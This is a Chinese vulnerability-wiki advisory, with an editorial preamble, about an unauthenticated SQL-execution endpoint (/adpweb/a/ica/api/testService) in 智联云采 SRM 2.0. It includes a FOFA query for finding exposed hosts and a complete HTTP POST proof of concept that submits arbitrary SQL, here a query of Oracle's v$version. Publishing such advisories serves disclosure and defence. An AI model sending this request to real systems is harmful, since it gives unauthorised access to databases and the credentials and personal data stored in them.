

# 智联云采 SRM2.0 testService SQL注入漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：智联云采SRM2.0 ICA testService
- 文献类型：SQL执行接口摘要
- 版本、权限及部署边界：POST testService指定dbId/dbSql与响应模板，示例Oracle v$version，认证未证实
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 这是暴露SQL测试能力的权限问题候选，不能仅因可提交SQL就归传统注入，需原始代码/鉴权证明
2. 与212–215 MySQL注入不同，本篇Oracle目标/指定数据源，版本与部署分支必须分开
3. responeTemplate键拼写需按实际API保留核验，不凭英语直改；DB1001依环境变化
4. 已知在野、管理员密码及写木马为泛化模板，当前例子只查询版本且结果仅图
5. 修复缺官方补丁版本，fofa残缺、请求未围栏；迁Web服务

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

由于智联云采 SRM2.0 testService 接口可未授权执行SQL语句，存在极大的安全风险，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

SRM 2.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title=="SRM 2.0"

POC/EXP：

```http
POST /adpweb/a/ica/api/testService HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/json

{
    "dbId": "1001",
    "dbSql": "#set ($lang = $lang) SELECT * FROM v$version",
    "responeTemplate": "{\"std_data\": {\"execution\": {\"sqlcode\": \"$execution.sqlcode\", \"description\": \"$execution.description\"}}}",
    "serviceCode": "q",
    "serviceName": "q",
    "serviceParams": "{\"lang\":\"zh_CN\"}"
}
```





# 修复方案

关闭互联网暴露面或接口设置访问权限。

联系厂家及时打补丁。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
